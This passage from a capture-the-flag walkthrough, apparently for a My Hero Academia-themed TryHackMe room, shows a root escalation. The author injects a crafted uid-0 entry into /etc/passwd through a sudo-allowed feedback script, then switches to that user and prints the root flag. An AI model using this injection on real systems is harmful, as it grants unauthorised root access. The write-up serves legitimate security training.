   ```
  mkpasswd -m md5crypt -s
  Password: 123
  $1$aWx5WA8f$7HEvDgXApxLhrtSqs2wcd0
  ```

- Now we are going to create a new user with this password and give it root credentials. We will add that user to `/etc/passwd` with `feedback.sh` script.

  ```
  deku@ip-10-10-50-138:~$ sudo /opt/NewComponent/feedback.sh 
  [sudo] password for deku: 
  Hello, Welcome to the Report Form       
  This is a way to report various problems
      Developed by                        
          The Technical Department of U.A.
  Enter your feedback:
  'jxf:$1$aWx5WA8f$7HEvDgXApxLhrtSqs2wcd0:0:0:jxf:/root:/bin/bash'>>/etc/passwd
  It is This:
  Feedback successfully saved.
  ```

- Now, let's confirm if it worked. If you don't get the same output that you inputed into the script, you did something wrong. User I created is named `jxf` and has password `123`, you can name it whatever you want and make whatever password you like.

  ```
  deku@ip-10-10-50-138:~$ tail -n1 /etc/passwd
  jxf:$1$aWx5WA8f$7HEvDgXApxLhrtSqs2wcd0:0:0:jxf:/root:/bin/bash
  ```

- Switch to newly created user and read the root flag.

  ```
  deku@ip-10-10-50-138:~$ su jxf
  Password: 
  root@ip-10-10-50-138:/home/deku# whoami
  root
  root@ip-10-10-50-138:/home/deku# id
  uid=0(root) gid=0(root) groups=0(root)
  
  root@ip-10-10-50-138:/home/deku# cat /root/root.txt 
  root@myheroacademia:/opt/NewComponent# cat /root/root.txt
  __   __               _               _   _                 _____ _          
  \ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
   \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
    | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
    |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                    _    _ 
               _   _        ___    | |  | |
              | \ | | ___  /   |   | |__| | ___ _ __  ___
              |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
              | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
              |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 
  
  THM{Y0U_4r3_7h3_NUm83r_1_H3r0}
  ```

---